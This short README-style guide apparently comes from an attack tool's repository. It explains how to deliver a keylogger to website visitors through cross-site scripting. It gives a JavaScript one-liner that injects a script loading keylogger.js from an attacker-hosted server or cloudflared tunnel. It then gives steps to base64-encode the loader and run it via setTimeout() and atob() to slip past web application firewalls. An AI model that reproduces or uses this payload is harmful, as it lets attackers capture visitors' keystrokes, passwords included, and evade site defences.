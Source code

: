 1. Make a cloudflared tunneling in your terminal for public keylogger.js host with ssl certificate or if you have your own ssl web server you can use it

2. Use this JS to call the keylogger script

 var a=document.createElement("script");a.src="https://[your webserver or cloudflare tunnel]/keylogger.js";document.body.appendChild(a); </br>

4. Make this js to base64 for waf bypass

5. Add this to your xss payload with setTimeout() and atob()

6. atob() is used for base64 js execution and setTimeout() is used for waf bypass execution instead of eval()
